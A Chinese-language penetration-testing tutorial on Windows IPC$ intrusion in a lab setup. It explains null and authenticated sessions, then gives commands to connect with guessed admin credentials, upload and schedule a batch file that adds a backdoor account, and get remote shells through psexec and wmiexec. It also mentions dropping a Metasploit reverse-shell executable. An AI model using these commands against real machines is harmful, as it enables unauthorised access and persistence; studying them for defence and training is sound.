内网渗透 | IPC$入侵大全
0x01 ipc$的定义
IPC$(Internet Process Connection)是共享"命名管道"的资源(大家都是这么说的)，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限,在远程管理计算机和查看计算机的共享资源时使用。利用IPC$,连接者甚至可以与目标主机建立一个空的连接而无需用户名与密码(当然,对方机器必须开了ipc$共享,否则你是连接不上的)，而利用这个空的连接，连接者还可以得到目标主机上的用户列表(不过负责的管理员会禁止导出用户列表的)。
0x02 ipc$与空连接,139,445端口,默认共享的关系
ipc$与空连接:
不需要用户名与密码的ipc$连接即为空连接,一旦你以某个用户或管理员的身份登陆(即以特定的用户名和密码进行ipc$连接),自然就不能叫做空连接了.
许多人可能要问了,既然可以空连接,那我以后就空连接好了,为什么还要费九牛二虎之力去扫描弱口令,呵呵,原因前面提到过,当你以空连接登陆时,你没有任何权限(很郁闷吧),而你以用户或管理员的身份登陆时,你就会有相应的权限(有权限谁不想呀,所以还是老老实实扫吧,不要偷懒哟).
ipc$与139,445端口:
ipc$连接可以实现远程登陆及对默认共享的访问;而139端口的开启表示netbios协议的应用,我们可以通过139,445(win2000)端口实现对共享文件/打印机的访问,因此一般来讲,ipc$连接是需要139或445端口来支持的.
ipc$与默认共享
默认共享是为了方便管理员远程管理而默认开启的共享(你当然可以关闭它),即所有的逻辑盘(c$,d$,e$……)和系统目录winnt或windows(admin$),我们通过ipc$连接可以实现对这些默认共享的访问(前提是对方没有关闭这些默认共享)
0x03 ipc$入侵实战
1.实验环境：
攻击机：win7x64 IP:192.168.1.101
靶机： win2003 ip:192.168.1.108
2.通过扫描器扫描IPC$弱口令连接：
这里推荐大家用ntscan或者溯雪和x-scan，porscan等扫描器

3.通过net use 建立一个非空连接：
连接域backlion的ipc$:
net use \\192.168.1.108\c$ “12345@12345qw” /user:backlion\administrator
net use \\192.168.1.108\c$ 123456 /user:administrator //建立的非空连接
或者
net use \\192.168.1.108\c$ " 123456" /user:administrator //建立的非空连接
net use \\192.168.1.108\c$ "" /user:administrator //空连接，无密码
4.这里准备上传一个建立bk账号的批处理：
d:\user.bat 文件内容为：net user bk bk123 /add
注：这里也可以上传MSF下生成的exe，上传到靶机上执行，然后反弹出shell，更能很好地操作。
5.通过copy命令上传本地攻击机的批处理文件到目标靶机的c$上，也就是靶机的c:\
copy user.bat \\192.168.1.108\c$
注意：文件下载
copy \\192.168.1.108\c$\user.bat user.bat6.查看目标靶机的时间：
net time \\192.168.1.108
7.通过at命令在特定时间执行批处理文件：
at \\192.168.1.108 12:13:00 c:\user.bat
6.在目标靶机上发现账号已成功添加执行：

8.其他命令：
将目标共享建立一个映射Z盘：
net use z: \\192.168.1.108\c$
查看已建立的会话：
net use
删除会话连接：

9.通过psexec工具进行会话连接执行
psexec.exe \\192.168.1.108 cmd //前提是需要建立一个空连接或者非空连接
psexec.exe \\192.168.1.108 cmd -u administrator -p 123456 //不需要建立空连接
然后就可以在目标靶机上任意执行命令：

csript.exe wmiexec.vbs /shell 192.168.1.108 administrator 123456
然后执行一些系统命令：

0x04 ipc$连接失败的原因
以下5个原因是比较常见的:
1)你的系统不是NT或以上操作系统;
2)对方没有打开ipc$默认共享
3)对方未开启139或445端口(惑被防火墙屏蔽)
4)你的命令输入有误(比如缺少了空格等)
5)用户名或密码错误(空连接当然无所谓了)
另外,你也可以根据返回的错误号分析原因：
错误号5，拒绝访问 ： 很可能你使用的用户不是管理员权限的，先提升权限；
错误号51，Windows 无法找到网络路径 : 网络有问题；
错误号53，找不到网络路径 ： ip地址错误；目标未开机；目标lanmanserver服务未启动；目标有防火墙（端口过滤）；
错误号67，找不到网络名 ： 你的lanmanworkstation服务未启动；目标删除了ipc$；
错误号1219，提供的凭据与已存在的凭据集冲突 ： 你已经和对方建立了一个ipc$，请删除再连。
错误号1326，未知的用户名或错误密码 ： 原因很明显了；
错误号1792，试图登录，但是网络登录服务没有启动 ： 目标NetLogon服务未启动。（连接域控会出现此情况）
错误号2242，此用户的密码已经过期 ： 目标有帐号策略，强制定期要求更改密码。
关于ipc$连不上的问题比较复杂，除了以上的原因,还会有其他一些不确定因素,在此本人无法详细而确定的说明,就靠大家自己体会和试验

零基础Web渗透测试
内含内网渗透流程和思路
视频教程
链接：https://pan.baidu.com/s/1zEqDJmT7eh-LeffZhqtIWA
提取码：qfil
链接仅7天有效，过期不补
文章参考来源：backlion
地址：https://www.cnblogs.com/backlion/p/7401609.html